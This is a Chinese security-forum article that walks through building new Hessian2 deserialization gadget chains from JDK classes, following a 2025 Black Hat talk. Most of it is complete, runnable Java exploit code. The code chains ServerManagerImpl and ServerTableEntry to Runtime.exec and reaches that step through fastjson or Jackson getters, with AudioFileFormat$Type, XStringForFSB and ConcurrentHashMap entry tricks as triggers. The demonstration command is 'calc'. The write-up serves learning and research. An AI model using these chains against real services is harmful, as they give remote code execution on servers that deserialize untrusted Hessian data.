# 从2025blackhat-jdd hessian反序列化jdk原生新链开始学习链子构造-先知社区

> **来源**: https://xz.aliyun.com/news/18935  
> **文章ID**: 18935

---

# 前言

其实链子早就构造出来了，但是一直没有写文章的欲望，瞅见佬们公开的文章都只有链子没有详细解释以及构造过程，所以我还是来分享一下踩坑经验吧，有啥不太对的地方欢迎各位佬们指出。

# 简单分析hessian反序列化原理

这个其实很多大佬都有很详细的分析文章了，所以这里就简单过一下，毕竟这篇文章主要还是分享链子的学习与构造思路的。

## hessian2反序列化流程分析

这里直接拿Map类型的类来进行序列化，因为hessian2只有在tag为72，也就是第一个反序列化的类为Map类型时才会走到`MapDeserializer#readMap`从而触发`map.put`方法。

首先调试到Hessian2Input的readObject方法。



可以发现，读取到的第一个字节tag为72，也就是Map类型的类，跟到case中。



72的case就实现了一个方法，也就是readMap方法，步入。



这里会新建一个`MapDeserializer`，默认反序列化成 `HashMap`，并调用readMap。



这里会将序列化数据反序列化为一个map类，并且其中调用了map.put进行赋值操作，正是map.put这个方法导致了后续的反序列化问题。

具体细节可以参考这个佬写的文章<https://xz.aliyun.com/news/17603>

# 新链构造与学习

这里主要写一下

## getter触发Runtime

### 找到指定链的代码并进行简单浏览

这里先看可以触发`Runtime`的方法，这里看一下blackhat的ppt，可以看到



这里的思路是触发`ServerManagerImpl`的`getter`方法，从而触发内部的`runtime.exec`。

先跟一下代码，首先是`ServerManagerImpl#getActiveServers`方法。



然后进入`entry.isValid`方法，也就是`ServerTableEntry#isValid`



然后就是`activate`方法了。



可以发现`activate`方法里面是自带`Runtime.getRuntime().exec`的。

### 构造java代码

#### `ServerManagerImpl#getActiveServers`->`ServerTableEntry#isValid`

首先，先把我们需要的`ServerManagerImpl`类构造出来，由于`ServerManagerImpl`的构造函数不为public，因此这里使用反射的方法来进行构造。



代码如下：

```
        ServerManagerImpl serverManager = createWithObjectNoArgsConstructor(ServerManagerImpl.class);

        serverManager.getActiveServers();
```

这里可以debug一下，看是否可以到`getActiveServers()`方法。



这里已经触发到`getActiveServers()`方法了，再往后面步过就会由于`serverTable`为空走到报错，所以这里需要给`serverTable`赋值，往上面的参数看，`serverTable`是一个`HashMap`。



构造后代码如下：

```
        ServerManagerImpl serverManager = createWithObjectNoArgsConstructor(ServerManagerImpl.class);
        HashMap map = new HashMap();

        setFieldValue(serverManager, "serverTable", map);
        serverManager.getActiveServers();
```



现在debug代码可以走到try里了，但是由于`HashMap`里面没有给值，所以不会进入`while`循环中，详细看一下这段代码。

```
            try {
                while (serverList.hasNext()) {
                    Integer key = (Integer) serverList.next();
                    // get an entry
                    entry = (ServerTableEntry) serverTable.get(key);

                    if (entry.isValid() && entry.isActive()) {
                        servers.add(entry);
                    }
                }
            }
```

这里起主要作用的就是`entry`参数，而`entry`是一个`ServerTableEntry`，并且应该是`key`所对应的`value`，根据这些我们给`map`进行赋值，当然哈，`ServerTableEntry`的构造函数同样不是`public`。

代码如下：

```
        ServerManagerImpl serverManager = createWithObjectNoArgsConstructor(ServerManagerImpl.class);
        ServerTableEntry serverTableEntry = utils.createWithObjectNoArgsConstructor(ServerTableEntry.class);
        HashMap map = new HashMap();
        map.put(1,serverTableEntry);

        setFieldValue(serverManager, "serverTable", map);
        serverManager.getActiveServers();
```

现在已经可以进入`isValid`方法了。



#### `ServerTableEntry#isValid`->`ServerTableEntry#activate`

这里debug进去后也会因为`process=null`而报出异常。



详细阅读一下这段代码

```
    synchronized boolean isValid()
    {
        if ((state == ACTIVATING) || (state == HELD_DOWN)) {
            if (debug)
                printDebug( "isValid", "returns true" ) ;

            return true;
        }

        try {
            int exitVal = process.exitValue();
        } catch (IllegalThreadStateException e1) {
            return true;
        }

        if (state == ACTIVATED) {
            if (activateRetryCount < ActivationRetryMax) {
                if (debug)
                    printDebug("isValid", "reactivating server");
                activateRetryCount++;
                activate();
                return true;
            }

            if (debug)
                printDebug("isValid", "holding server down");

            holdDown();
            return true;
        }

        deActivate();
        return false;
    }
```

解读这段代码后，可以发现这里不止要传`process`，还需要`state=ACTIVATED`才能走到`activate`，去上面寻找一下`ACTIVATED`的值。



代码如下：

```
        ServerManagerImpl serverManager = createWithObjectNoArgsConstructor(ServerManagerImpl.class);
        ServerTableEntry serverTableEntry = utils.createWithObjectNoArgsConstructor(ServerTableEntry.class);
        HashMap map = new HashMap();
        map.put(1,serverTableEntry);
        Process process = new ProcessBuilder("cmd", "/c", "exit").start();

        setFieldValue(serverManager, "serverTable", map);
        setFieldValue(serverTableEntry, "process", process);
        setFieldValue(serverTableEntry,"state",2);
        serverManager.getActiveServers();
```



#### `ServerTableEntry#activate`->`Runtime#exec`

详细瞅瞅这段代码，其实挺简单的，就是会执行`activationCmd`。

```
    synchronized void activate() throws org.omg.CORBA.SystemException
    {
        state = ACTIVATED;

        try {
            if (debug)
                printDebug("activate", "activating server");
            process = Runtime.getRuntime().exec(activationCmd);
        } catch (Exception e) {
            deActivate();
            if (debug)
                printDebug("activate", "throwing premature process exit");
            throw wrapper.unableToStartProcess() ;
        }
    }
```

直接赋值就行，代码如下：

```
        ServerManagerImpl serverManager = createWithObjectNoArgsConstructor(ServerManagerImpl.class);
        ServerTableEntry serverTableEntry = utils.createWithObjectNoArgsConstructor(ServerTableEntry.class);
        HashMap map = new HashMap();
        map.put(1,serverTableEntry);
        Process process = new ProcessBuilder("cmd", "/c", "exit").start();

        setFieldValue(serverManager, "serverTable", map);
        setFieldValue(serverTableEntry, "process", process);
        setFieldValue(serverTableEntry,"state",2);
        setFieldValue(serverTableEntry, "activationCmd", "calc");
        serverManager.getActiveServers();
```

成功弹出计算器。



## fastJson或Jackson触发getter

这个就不进行解释了，很熟悉的一个东西了。

### Jackson

代码如下：

```
        ServerManagerImpl serverManager = createWithObjectNoArgsConstructor(ServerManagerImpl.class);
        ServerTableEntry serverTableEntry = utils.createWithObjectNoArgsConstructor(ServerTableEntry.class);
        HashMap map = new HashMap();
        map.put(1,serverTableEntry);
        Process process = new ProcessBuilder("cmd", "/c", "exit").start();

        setFieldValue(serverManager, "serverTable", map);
        setFieldValue(serverTableEntry, "process", process);
        setFieldValue(serverTableEntry,"state",2);
        setFieldValue(serverTableEntry, "activationCmd", "calc");

        POJONode node = new POJONode(serverManager);

        node.toString();
```



### fastJson

代码如下：

```
        ServerManagerImpl serverManager = createWithObjectNoArgsConstructor(ServerManagerImpl.class);
        ServerTableEntry serverTableEntry = utils.createWithObjectNoArgsConstructor(ServerTableEntry.class);
        HashMap map = new HashMap();
        map.put(1,serverTableEntry);
        Process process = new ProcessBuilder("cmd", "/c", "exit").start();

        setFieldValue(serverManager, "serverTable", map);
        setFieldValue(serverTableEntry, "process", process);
        setFieldValue(serverTableEntry,"state",2);
        setFieldValue(serverTableEntry, "activationCmd", "calc");

        JSONArray jsonArray = new JSONArray();
        jsonArray.add(serverManager);
        jsonArray.toString();
```



## 触发toString

这里的链子其实挺多的，他ppt里就提到了很多条，所以这里就简单写一下思路，并debug一下关键点。

### `HashMap->AudioFileFormat->toString`

这条链子ppt中的思路如下：



首先还是构造`HashMap->equals`，代码如下：

```
        HashMap map1 = new HashMap();
        HashMap map2 = new HashMap();
        map1.put("aa",jsonArray);
        map1.put("bB",conEntry1);
        map2.put("aa",conEntry1);
        map2.put("bB",jsonArray);
        HashMap finalMap = new HashMap();
        finalMap.put(map1,"");
        finalMap.put(map2,"");
```

然后走到`AudioFileFormat$Type#equals`。



如图所示，`AudioFileFormat$Type#equals`中会调用任意`toString`从而触发`Jackson`或`fastjson`的`toString`方法。

因此完整代码如下：

```
package org.example.fastjson.jddChains_Hessian;
import com.alibaba.fastjson.JSONArray;
import com.alibaba.fastjson.JSONObject;
import com.caucho.hessian.io.Hessian2Input;
import com.caucho.hessian.io.Hessian2Output;
import com.caucho.hessian.io.SerializerFactory;
import com.sun.corba.se.impl.activation.ServerManagerImpl;
import com.sun.corba.se.impl.activation.ServerTableEntry;

import com.sun.org.apache.xpath.internal.objects.XStringForFSB;
import sun.reflect.ReflectionFactory;
import utils.utils;

import javax.sound.sampled.AudioFileFormat;
import java.io.*;
import java.lang.reflect.*;
import java.util.AbstractMap;
import java.util.HashMap;
import java.util.Random;
import java.util.concurrent.ConcurrentHashMap;

import static com.sun.org.apache.xalan.internal.xsltc.compiler.Constants.CHARACTERS;

public class HashMap_AudioFileFormat {
    public static void main(String[] args) throws Exception {
        ServerManagerImpl serverManager = utils.createWithObjectNoArgsConstructor(ServerManagerImpl.class);
        ServerTableEntry serverTableEntry = utils.createWithObjectNoArgsConstructor(ServerTableEntry.class);
        HashMap map = new HashMap();
        map.put(0, serverTableEntry);

        Process process = new ProcessBuilder("cmd", "/c", "exit").start();

        setFieldValue(serverManager, "serverTable", map);
        setFieldValue(serverTableEntry,"state",2);
        setFieldValue(serverTableEntry, "process", process);
        setFieldValue(serverTableEntry, "activationCmd", "calc");

        JSONArray jsonArray = new JSONArray();
        jsonArray.add(serverManager);

        Object conEntry1 = createWithObjectNoArgsConstructor(Class.forName("javax.sound.sampled.AudioFileFormat$Type"));

        HashMap map1 = new HashMap();
        HashMap map2 = new HashMap();
        map1.put("aa",jsonArray);
        map1.put("bB",conEntry1);
        map2.put("aa",conEntry1);
        map2.put("bB",jsonArray);
        HashMap finalMap = new HashMap();
        finalMap.put(map1,"");
        finalMap.put(map2,"");


        FileOutputStream fileOutputStream = new FileOutputStream("Hessian.bin");
        Hessian2Output hessian2Output = new Hessian2Output(fileOutputStream);
        SerializerFactory serializerFactory = new SerializerFactory();
        serializerFactory.setAllowNonSerializable(true);
        hessian2Output.setSerializerFactory(serializerFactory);
        hessian2Output.writeObject(finalMap);
        hessian2Output.close();

        FileInputStream fileInputStream = new FileInputStream("Hessian.bin");
        Hessian2Input hessian2Input = new Hessian2Input(fileInputStream);
        HashMap o = (HashMap) hessian2Input.readObject();
    }

    public static void setFieldValue(final Object obj, final String fieldName, final Object value) throws Exception {
        final Field field = getField(obj.getClass(), fieldName);
        field.set(obj, value);
    }
    public static <T> T createWithoutConstructor ( Class<T> classToInstantiate )
            throws NoSuchMethodException, InstantiationException, IllegalAccessException, InvocationTargetException {
        return createWithConstructor(classToInstantiate, Object.class, new Class[0], new Object[0]);
    }
    public static <T> T createWithObjectNoArgsConstructor(Class<T> clzToInstantiate) {

        T resObject = null;
        try{
            resObject = createWithConstructor(clzToInstantiate, Object.class, new Class[0], new Object[0]);
        } catch (NoSuchMethodException | InstantiationException | IllegalAccessException | InvocationTargetException e) {
        }

        return resObject;
    }
    public static <T> T createWithConstructor ( Class<T> classToInstantiate, Class<? super T> constructorClass, Class<?>[] consArgTypes, Object[] consArgs )
            throws NoSuchMethodException, InstantiationException, IllegalAccessException, InvocationTargetException {
        Constructor<? super T> objCons = constructorClass.getDeclaredConstructor(consArgTypes);
        setAccessible(objCons);
        Constructor<?> sc = ReflectionFactory.getReflectionFactory().newConstructorForSerialization(classToInstantiate, objCons);
        setAccessible(sc);
        return (T)sc.newInstance(consArgs);
    }
    public static Field getField(final Class<?> clazz, final String fieldName) {
        Field field = null;
        try {
            field = clazz.getDeclaredField(fieldName);
            setAccessible(field);
        }
        catch (NoSuchFieldException ex) {
            if (clazz.getSuperclass() != null)
                field = getField(clazz.getSuperclass(), fieldName);
        }
        return field;
    }
    public static void setAccessible(AccessibleObject member) {
        String versionStr = System.getProperty("java.version");
        int javaVersion = Integer.parseInt(versionStr.split("\.")[0]);

        // not possible to quiet runtime warnings anymore...
        // see https://bugs.openjdk.java.net/browse/JDK-8210522
        // to understand impact on Permit (i.e. it does not work
        // anymore with Java >= 12)
        member.setAccessible(true);
    }
}


```



### `HashMap->XStringForFSB->toString`

这里ppt中的思路如下：



这里就是通过`XStringForFSB#equals`中的任意调用`toString`来触发的。



完整代码如下：

```
package org.example.fastjson.jddChains_Hessian;
import com.alibaba.fastjson.JSONArray;
import com.alibaba.fastjson.JSONObject;
import com.caucho.hessian.io.Hessian2Input;
import com.caucho.hessian.io.Hessian2Output;
import com.caucho.hessian.io.SerializerFactory;
import com.sun.corba.se.impl.activation.ServerManagerImpl;
import com.sun.corba.se.impl.activation.ServerTableEntry;

import com.sun.org.apache.xpath.internal.objects.XStringForFSB;
import sun.reflect.ReflectionFactory;
import utils.utils;

import java.io.*;
import java.lang.reflect.*;
import java.util.AbstractMap;
import java.util.HashMap;
import java.util.Random;
import java.util.concurrent.ConcurrentHashMap;

import static com.sun.org.apache.xalan.internal.xsltc.compiler.Constants.CHARACTERS;

public class jddChains_HashMap {
    public static void main(String[] args) throws Exception {
        ServerManagerImpl serverManager = utils.createWithObjectNoArgsConstructor(ServerManagerImpl.class);
        ServerTableEntry serverTableEntry = utils.createWithObjectNoArgsConstructor(ServerTableEntry.class);
        HashMap map = new HashMap();
        map.put(0, serverTableEntry);

        Process process = new ProcessBuilder("cmd", "/c", "exit").start();

        utils.setFieldValue(serverManager, "serverTable", map);
        utils.setFieldValue(serverTableEntry,"state",2);
        utils.setFieldValue(serverTableEntry, "process", process);
        utils.setFieldValue(serverTableEntry, "activationCmd", "calc");

        JSONArray jsonArray = new JSONArray();
        jsonArray.add(serverManager);

        XStringForFSB xStringForFSB = createWithoutConstructor(XStringForFSB.class);
        setFieldValue(xStringForFSB, "m_strCache", "1111111");

        Object conEntry1 = createWithObjectNoArgsConstructor(Class.forName("java.util.AbstractMap$SimpleEntry"));
        utils.setFieldValue(conEntry1,"key",jsonArray);

        HashMap map1 = new HashMap();
        HashMap map2 = new HashMap();
        map1.put("aa",conEntry1);
        map1.put("bB",xStringForFSB);
        map2.put("aa",xStringForFSB);
        map2.put("bB",conEntry1);
        HashMap finalMap = new HashMap();
        finalMap.put(map1,"");
        finalMap.put(map2,"");

        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        Hessian2Output out = new Hessian2Output(byteArrayOutputStream);

        SerializerFactory sf = new SerializerFactory();
        sf.setAllowNonSerializable(true);
        out.setSerializerFactory(sf);
        out.writeObject(finalMap);
        out.flush();
        ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(byteArrayOutputStream.toByteArray());
        new Hessian2Input(byteArrayInputStream).readObject();
    }

    public static void Serialize(Object obj) throws IOException {
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        objectOutputStream.writeObject(obj);

    }

    public static Object Unserialize(String Filename) throws IOException,ClassNotFoundException{

        ObjectInputStream objectInputStream = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = objectInputStream.readObject();
        return obj;

    }
    public static String generateRandomString() {
        Random random = new Random();
        int length = random.nextInt(20)+1;
        StringBuilder sb = new StringBuilder(length);

        for (int i = 0; i < length; i++) {
            int index = random.nextInt(CHARACTERS.length());
            char randomChar = CHARACTERS.charAt(index);
            sb.append(randomChar);
        }

        return sb.toString();
    }
    public static void setFieldValue(final Object obj, final String fieldName, final Object value) throws Exception {
        final Field field = getField(obj.getClass(), fieldName);
        field.set(obj, value);
    }
    public static <T> T createWithoutConstructor ( Class<T> classToInstantiate )
            throws NoSuchMethodException, InstantiationException, IllegalAccessException, InvocationTargetException {
        return createWithConstructor(classToInstantiate, Object.class, new Class[0], new Object[0]);
    }
    public static <T> T createWithObjectNoArgsConstructor(Class<T> clzToInstantiate) {

        T resObject = null;
        try{
            resObject = createWithConstructor(clzToInstantiate, Object.class, new Class[0], new Object[0]);
        } catch (NoSuchMethodException | InstantiationException | IllegalAccessException | InvocationTargetException e) {
        }

        return resObject;
    }
    public static <T> T createWithConstructor ( Class<T> classToInstantiate, Class<? super T> constructorClass, Class<?>[] consArgTypes, Object[] consArgs )
            throws NoSuchMethodException, InstantiationException, IllegalAccessException, InvocationTargetException {
        Constructor<? super T> objCons = constructorClass.getDeclaredConstructor(consArgTypes);
        setAccessible(objCons);
        Constructor<?> sc = ReflectionFactory.getReflectionFactory().newConstructorForSerialization(classToInstantiate, objCons);
        setAccessible(sc);
        return (T)sc.newInstance(consArgs);
    }
    public static Field getField(final Class<?> clazz, final String fieldName) {
        Field field = null;
        try {
            field = clazz.getDeclaredField(fieldName);
            setAccessible(field);
        }
        catch (NoSuchFieldException ex) {
            if (clazz.getSuperclass() != null)
                field = getField(clazz.getSuperclass(), fieldName);
        }
        return field;
    }
    public static void setAccessible(AccessibleObject member) {
        String versionStr = System.getProperty("java.version");
        int javaVersion = Integer.parseInt(versionStr.split("\.")[0]);

        // not possible to quiet runtime warnings anymore...
        // see https://bugs.openjdk.java.net/browse/JDK-8210522
        // to understand impact on Permit (i.e. it does not work
        // anymore with Java >= 12)
        member.setAccessible(true);
    }
}


```



### `ConcurrentHashMap->XStringForFSB||AudioFileFormat->toString`

这里ppt的思路如图所示：



这个链其实还是学习的night✌的。

链接在这：<https://www.n1ght.cn/2025/08/21/blackhat-JDD-hessian%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96jdk_fastjson%E9%93%BE/>

完整代码如下：

```
package org.example.fastjson.jddChains_Hessian;

import com.alibaba.fastjson.JSONObject;
import com.caucho.hessian.io.Hessian2Input;
import com.caucho.hessian.io.Hessian2Output;
import com.caucho.hessian.io.SerializerFactory;
import com.sun.corba.se.impl.activation.ServerManagerImpl;
import com.sun.corba.se.impl.activation.ServerTableEntry;

import com.sun.org.apache.xpath.internal.objects.XStringForFSB;
import sun.reflect.ReflectionFactory;

import java.io.*;
import java.lang.reflect.*;
import java.util.HashMap;
import java.util.Random;
import java.util.concurrent.ConcurrentHashMap;

import static com.sun.org.apache.xalan.internal.xsltc.compiler.Constants.CHARACTERS;

public class jddChains_ConcurrentHashMap {
    public static void main(String[] args) throws Exception {
        ServerManagerImpl serverManager = createWithObjectNoArgsConstructor(ServerManagerImpl.class);
        HashMap<Integer, ServerTableEntry> map =new HashMap<>();
        ServerTableEntry serverTableEntry = createWithObjectNoArgsConstructor(ServerTableEntry.class);
        map.put(1,serverTableEntry);

        Process process = new ProcessBuilder("cmd", "/c", "exit").start();

        setFieldValue(serverManager, "serverTable", map);
        setFieldValue(serverTableEntry,"state",2);
        setFieldValue(serverTableEntry, "process", process);
        setFieldValue(serverTableEntry, "activationCmd", "calc");

        JSONObject jsonObject = new JSONObject();
        jsonObject.put("key", serverManager);


//        XStringForFSB xStringForFSB = createWithoutConstructor(XStringForFSB.class);
//        setFieldValue(xStringForFSB, "m_strCache", generateRandomString());
        Object conEntry = createWithObjectNoArgsConstructor(Class.forName("javax.sound.sampled.AudioFileFormat$Type"));


        Object conEntry1 = createWithObjectNoArgsConstructor(Class.forName("java.util.concurrent.ConcurrentHashMap$MapEntry"));
        Object conEntry2 = createWithObjectNoArgsConstructor(Class.forName("java.util.concurrent.ConcurrentHashMap$MapEntry"));
        setFieldValue(conEntry1, "key", conEntry);
        setFieldValue(conEntry1, "val", jsonObject);
        setFieldValue(conEntry2, "key", jsonObject);
        setFieldValue(conEntry2, "val", conEntry);
        ConcurrentHashMap s = new ConcurrentHashMap();
        setFieldValue(s, "sizeCtl", 2);
        Class nodeC;
        try {
            nodeC = Class.forName("java.util.concurrent.ConcurrentHashMap$Node");
        }
        catch ( ClassNotFoundException e ) {
            nodeC = Class.forName("java.util.concurrent.ConcurrentHashMap$Entry");
        }
        Constructor nodeCons = nodeC.getDeclaredConstructor(int.class, Object.class, Object.class, nodeC);
        setAccessible(nodeCons);
        Object tbl = Array.newInstance(nodeC, 2);
        Array.set(tbl, 0, nodeCons.newInstance(0, conEntry1, conEntry1, null));
        Array.set(tbl, 1, nodeCons.newInstance(0, conEntry2, conEntry2, null));
        setFieldValue(s, "table", tbl);
        Field table = ConcurrentHashMap.class.getDeclaredField("table");
        table.setAccessible(true);
        table.set(s, tbl);

        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        Hessian2Output out = new Hessian2Output(byteArrayOutputStream);

        SerializerFactory sf = new SerializerFactory();
        sf.setAllowNonSerializable(true);
        out.setSerializerFactory(sf);
        out.writeObject(s);
        out.flush();
        ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(byteArrayOutputStream.toByteArray());
        new Hessian2Input(byteArrayInputStream).readObject();
    }

    public static void Serialize(Object obj) throws IOException {
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        objectOutputStream.writeObject(obj);

    }

    public static Object Unserialize(String Filename) throws IOException,ClassNotFoundException{

        ObjectInputStream objectInputStream = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = objectInputStream.readObject();
        return obj;

    }
    public static String generateRandomString() {
        Random random = new Random();
        int length = random.nextInt(20)+1;
        StringBuilder sb = new StringBuilder(length);

        for (int i = 0; i < length; i++) {
            int index = random.nextInt(CHARACTERS.length());
            char randomChar = CHARACTERS.charAt(index);
            sb.append(randomChar);
        }

        return sb.toString();
    }
    public static void setFieldValue(final Object obj, final String fieldName, final Object value) throws Exception {
        final Field field = getField(obj.getClass(), fieldName);
        field.set(obj, value);
    }
    public static <T> T createWithoutConstructor ( Class<T> classToInstantiate )
            throws NoSuchMethodException, InstantiationException, IllegalAccessException, InvocationTargetException {
        return createWithConstructor(classToInstantiate, Object.class, new Class[0], new Object[0]);
    }
    public static <T> T createWithObjectNoArgsConstructor(Class<T> clzToInstantiate) {

        T resObject = null;
        try{
            resObject = createWithConstructor(clzToInstantiate, Object.class, new Class[0], new Object[0]);
        } catch (NoSuchMethodException | InstantiationException | IllegalAccessException | InvocationTargetException e) {
        }

        return resObject;
    }
    public static <T> T createWithConstructor ( Class<T> classToInstantiate, Class<? super T> constructorClass, Class<?>[] consArgTypes, Object[] consArgs )
            throws NoSuchMethodException, InstantiationException, IllegalAccessException, InvocationTargetException {
        Constructor<? super T> objCons = constructorClass.getDeclaredConstructor(consArgTypes);
        setAccessible(objCons);
        Constructor<?> sc = ReflectionFactory.getReflectionFactory().newConstructorForSerialization(classToInstantiate, objCons);
        setAccessible(sc);
        return (T)sc.newInstance(consArgs);
    }
    public static Field getField(final Class<?> clazz, final String fieldName) {
        Field field = null;
        try {
            field = clazz.getDeclaredField(fieldName);
            setAccessible(field);
        }
        catch (NoSuchFieldException ex) {
            if (clazz.getSuperclass() != null)
                field = getField(clazz.getSuperclass(), fieldName);
        }
        return field;
    }
    public static void setAccessible(AccessibleObject member) {
        String versionStr = System.getProperty("java.version");
        int javaVersion = Integer.parseInt(versionStr.split("\.")[0]);

        // not possible to quiet runtime warnings anymore...
        // see https://bugs.openjdk.java.net/browse/JDK-8210522
        // to understand impact on Permit (i.e. it does not work
        // anymore with Java >= 12)
        member.setAccessible(true);
    }
}


```



# 总结

其实在知道具体的类以及方法的化拼链子还是挺简单的，主要还是解决报错的问题吧。

# 参考链接

<https://mp.weixin.qq.com/s/kO_nVUeqMM2UaaARual8RA>

<https://www.n1ght.cn/2025/08/21/blackhat-JDD-hessian%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96jdk_fastjson%E9%93%BE/>
